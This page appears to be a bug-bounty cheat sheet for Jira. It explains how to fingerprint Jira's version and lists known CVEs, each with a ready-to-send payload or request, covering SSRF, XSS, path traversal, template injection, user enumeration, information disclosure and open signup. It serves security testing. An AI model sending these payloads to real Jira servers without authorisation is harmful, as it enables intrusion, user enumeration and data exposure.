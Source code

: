 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Jira.md#introduction)

What would you do if you came across a website that uses Jira?

## How to Detect

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Jira.md#how-to-detect)

Try to HTTP request to `https://example.com/secure/Dashboard.jspa` or `https://example.com/login.jsp` and there is a form login

1. Find the related CVE by checking jira version

- How to find the jira version

Try to request to `https://example.com/secure/Dashboard.jspa` and then check the source code. You will find this line `<meta name="ajs-version-number" content="8.20.9">` so 8.20.9 is the jira version. If you found outdated jira version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-8170/Atlassian-Jira.html)

Some example CVE:

- CVE-2017-9506 (SSRF)

```
https://example.com/plugins/servlet/oauth/users/icon-uri?consumerUri=<SSRF_PAYLOAD>
```

- CVE-2018-20824 (XSS)

```
https://example.com/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```

- CVE-2019-8451 (SSRF)

```
https://example.com/plugins/servlet/gadgets/makeRequest?url=https://<HOST_NAME>:1337@example.com
```

- CVE-2019-8449 (User Information Disclosure)

```
https://example.com/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```

- CVE-2019-8442 (Sensitive Information Disclosure)

```
https://example.com/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

- CVE-2019-3403 (User Enumeration)

```
https://example.com/rest/api/2/user/picker?query=<USERNAME_HERE>
```

- CVE-2020-14181 (User Enumeration)

```
https://example.com/secure/ViewUserHover.jspa?username=<USERNAME>
```

- CVE-2020-14178 (Project Key Enumeration)

```
https://example.com/browse.<PROJECT_KEY>
```

- CVE-2020-14179 (Information Disclosure)

```
https://example.com/secure/QueryComponent!Default.jspa
```

- CVE-2019-11581 (Template Injection)

```
example.com/secure/ContactAdministrators!default.jspa

* Try the SSTI Payloads
```

- CVE-2019-3396 (Path Traversal)

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer: {{Hostname}}
Content-Length: 168
Connection: close

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"../web.xml"}}}

*Try above request with the Jira target
```

- CVE-2019-3402 (XSS)

```
https://example.com/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

2. Signup enabled

```
POST /servicedesk/customer/user/signup HTTP/1.1
Host: example.com
Content-Type: application/json

{"email":"test@gmail.com","signUpContext":{},"secondaryEmail":"","usingNewUi":true}
```

## Reference

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Jira.md#reference)

- [@harshbothra](https://twitter.com/harshbothra)


